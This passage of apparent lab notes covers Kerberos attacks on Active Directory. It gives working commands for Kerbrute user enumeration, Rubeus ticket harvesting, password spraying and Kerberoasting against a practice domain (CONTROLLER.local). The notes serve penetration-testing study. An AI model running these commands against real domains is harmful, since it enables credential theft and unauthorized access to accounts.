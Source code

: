 2. Rename kerbrute_linux_amd64 to kerbrute

3. `chmod +x kerbrute` - make kerbrute executable

#### Enumerating Users

1. cd to directory w/ Kerbrute

2. Download worldist to enumerate [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)

3. `./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt` this will brute force user accounts forma domain controller using a supplied wordlist

### Rubeus

[Rubeus](https://github.com/GhostPack/Rubeus)

Rubeus is an adaptation of the kekeo tool. Many tools included: overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

#### Harvesting Tickets w/ Rubeus

```powershell
#Tells Rubeus to harvest for TGTs every 30 seconds
Rubeus.exe harvest /interval:30
```

#### Brute Forcing - Password Spraying w/ Rubeus

```powershell
# Add the IP and domain name to the host file
echo 10.10.183.153 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

```powershell
# will take a given password and "spray" against all found users then giev the .kirbi TGT for said user
Rubeus.exe brute /password:Password1 /noticket
```

### Kerberoasting

Allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. Success of the attack depends on how strong the password is and if it is trackeable as well as the privileges of the cracked service account. 

Can enumerate Kerberoastable accounts with BloodHound. Will allow you to see what kind of accounts you can kerberoast if they are domain admins, and connections to the rest of the domain.

#### Kerberoasting w/ Rubeus

```powershell
# Will dump the Kerberos hash of any Kerberoastable users
Rubeus.exe kerberoast
```
